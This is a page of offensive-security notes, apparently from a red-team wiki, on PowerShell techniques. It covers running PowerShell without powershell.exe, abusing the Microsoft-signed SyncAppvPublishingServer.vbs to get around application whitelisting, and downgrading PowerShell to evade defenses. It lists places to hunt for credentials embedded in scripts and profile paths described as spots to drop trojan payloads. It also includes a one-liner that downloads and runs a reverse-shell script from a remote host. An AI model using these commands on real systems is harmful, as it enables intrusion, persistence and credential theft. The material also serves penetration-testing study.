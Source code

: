 # ⭕ Powershell Tricks

## <mark style="color:red;">Powershell</mark>

Powershell is a console replacement for windows cmd.exe that takes advantage of the .Net framework and COM objects and has a lot of bash-like features built into it.

Powershell has many interfaces such as the shell interface, script development GUI interface (ISE) and most importantly `System.Management.Automation.dll` which is the main DLL for loading powershell sessions.

#### powershell version 2.0 is common in windows 7 and server 2008 and downgrading from powershell 3 or 5 (latest version) to this one is great way of defense evasion.

## <mark style="color:red;">AMSI Bypass</mark>

#### Check [this section](amsi-bypass.md).

## <mark style="color:red;">Powershell without powershell.exe</mark>

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

```
rundll32.exe PowerShdll.dll,main
```

### <mark style="color:orange;">SyncAppvPublishingServer</mark>

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

example:

#### <mark style="color:green;">getting a reverse shell with SyncAppvPublishingServer and powershell.</mark>

generate a powershell payload and serve it on the network, use this command to call powershell from vba and load the payload in memory.

```
SyncAppvPublishingServer.vbs "Break; iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/rev.ps1')"
```

{% hint style="info" %}
#### This technique can easily bypass application whitelisting.
{% endhint %}



{% embed url="https://youtu.be/7tvfb9poTKg" %}

{% embed url="https://github.com/p3nt4/PowerShdll" %}

{% embed url="https://github.com/mirsys/PSAttack" %}

### <mark style="color:orange;">BYOPS</mark>

#### Bring your own powershell, any application that can use the .Net DLL to execute powershell commands.

{% embed url="https://github.com/leechristensen/UnmanagedPowerShell" %}

{% embed url="https://github.com/bitsadmin/nopowershell" %}

## <mark style="color:red;">Powershell Command Order</mark>

#### when a powershell command is executed, windows will look for the command in this order:

* Doskeys Alias (pre-windows 10 PSConsoleHostReadline)
* Alias
* Function
* Cmdlet
  * overloaded cmdlet checks object type
* Executable
  * tries each $PATHEXT for each directory in $PATH

## <mark style="color:red;">Attacking Resources</mark>

Pilfer embedded credentials in scripts:

```
C:\scripts
$HOME\Documents\WindowsPowerShell
C:\users\username\Documents\WindowsPowerShell\
$PSHOME\
c:\windows\system32\WindowsPowerShell\v1.0\
```

## <mark style="color:red;">Powershell Autoruns</mark>

The PowerShell console and ISE have different defaults for a profile. The profile is loaded every time PowerShell starts. This can be specific to the Host, User, Console, ISE, or a combination thereof. The filename of the current profile is always stored at $PROFILE. Any statements, including legacy commands or cmdlets in this file, will be executed upon start of PowerShell. You may want to adjust your profile to load certain modules or preset some environment variables.&#x20;

#### Because these files are automatically loaded when starting PowerShell, they are great locations to drop trojan payloads!

Profile running locations and context:

| Description          | Tool    | Path                                                                    |
| -------------------- | ------- | ----------------------------------------------------------------------- |
| Current User +Host   | Console | $Home\Documents\WindowsPowerShell\Profile.ps1                           |
| Current User         | Console | $Home\Documents\Profile.ps1                                             |
| Current Host         | Console | $PsHome\Microsoft.PowerShell\_profile.ps1                               |
| All Users, All Hosts | Console | $PsHome\Profile.ps1                                                     |
| Current User + Host  | ISE     | $Home\Documents\WindowsPowerShell\Microsoft.Power ShellISE\_profile.ps1 |
| Current Host         | ISE     | $PsHome\Microsoft.PowerShellISE\_profile.ps1                            |





































